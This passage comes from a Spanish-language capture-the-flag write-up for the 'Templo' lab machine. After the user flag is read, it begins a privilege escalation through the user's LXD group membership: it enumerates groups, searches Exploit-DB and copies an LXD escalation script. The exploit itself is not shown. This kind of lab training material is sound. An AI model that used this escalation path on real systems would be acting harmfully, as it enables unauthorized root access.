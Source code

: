 Ya podremos ver la flag del usuario:
```bash
rodgar@TheHackersLabs-Templo:~$ ls
user.txt
rodgar@TheHackersLabs-Templo:~$ cat user.txt
...
```

<br>

<h2 id="LXD">Escalando Privilegios Abusando del Grupo LXD</h2>

Si revisamos los privilegios de nuestro usuario, no tendremos ninguno:
```bash
rodgar@TheHackersLabs-Templo:~$ sudo -l
[sudo] password for rodgar: 
Sorry, user rodgar may not run sudo on TheHackersLabs-Templo.
```

Pero, si revisamos a qué grupos pertenece nuestro usuario, veremos uno interesante:
```bash
rodgar@TheHackersLabs-Templo:~$ id
uid=1000(rodgar) gid=1000(rodgar) groups=1000(rodgar),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
```
Estamos en el **grupo LXD**.

Ya hemos explotado este grupo para escalar privilegios en otras máquinas de manera manual.

Puedes hacerlo siguiendo los pasos que se muestran en estos blogs:
* <a href="https://medium.com/@mstrbgn/privilege-escalation-using-lxd-lxc-group-assignment-to-a-user-a-security-misconfiguration-a4892f611d6f" target="_blank">Privilege Escalation Using LXD/LXC Group Assignment To A User: A Security Misconfiguration</a>
* <a href="https://www.hackingarticles.in/lxd-privilege-escalation/" target="_blank">Lxd Privilege Escalation</a>

Esta vez, vamos a utilizar un script que nos automatiza este proceso que ya tenemos en la base de datos **Exploit-DB** de **Kali**.

Lo buscaremos con **searchsploit**:
```bash
searchsploit lxd
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation                                                                                                                   | linux/local/46978.sh
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Vamos a copiarlo en nuestro directorio de trabajo:
```bash
earchsploit -m linux/local/46978.sh
  Exploit: Ubuntu 18.04 - 'lxd' Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46978
     Path: /usr/share/exploitdb/exploits/linux/local/46978.sh
    Codes: N/A
 Verified: False
File Type: Bourne-Again shell script, Unicode text, UTF-8 text executable
```
